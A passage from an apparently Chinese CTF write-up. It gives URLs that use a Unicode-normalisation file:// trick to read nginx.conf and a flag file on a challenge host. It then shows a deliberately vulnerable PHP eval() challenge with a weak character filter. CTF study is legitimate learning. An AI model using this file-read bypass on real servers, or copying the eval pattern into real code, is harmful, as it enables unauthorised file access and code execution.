 参考文章（上面一段话的原出处实在是找不见了）

```
nginx文件存放的地方

配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf
```

```
http://56793d20-9191-4093-8d77-286e960fa5b8.node4.buuoj.cn:81/getUrl?url=file://suctf.c%E2%84%86sr/local/nginx/conf/nginx.conf
```

![image-20231217193019351](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231217193019351.png)

```
http://56793d20-9191-4093-8d77-286e960fa5b8.node4.buuoj.cn:81/getUrl?url=file://suctf.c%E2%84%86sr/fffffflag
```

![image-20231217193143065](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231217193143065.png)



## [极客大挑战 2019]RCE ME

###### 文件上传 绕过

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```
